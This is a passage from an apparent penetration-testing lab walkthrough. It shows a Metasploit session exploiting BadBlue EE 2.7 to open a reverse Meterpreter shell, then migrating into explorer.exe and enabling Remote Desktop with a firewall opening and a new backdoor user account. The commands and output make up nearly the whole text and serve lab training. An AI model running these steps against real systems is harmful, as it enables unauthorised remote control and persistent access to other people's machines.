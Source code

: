 ```


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.26.194
RHOSTS => 10.0.26.194
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.0.26.194
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.26.194:49758) at 2023-07-05 14:06:14 +0530

meterpreter > 
```

```
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > pgrep explorer
4076
meterpreter > migrate 4076
[*] Migrating from 4820 to 4076...
[*] Migration completed successfully.
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

```
meterpreter > run getgui -e -u alexis -p hacker_123321

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: alexis with Password: hacker_123321
```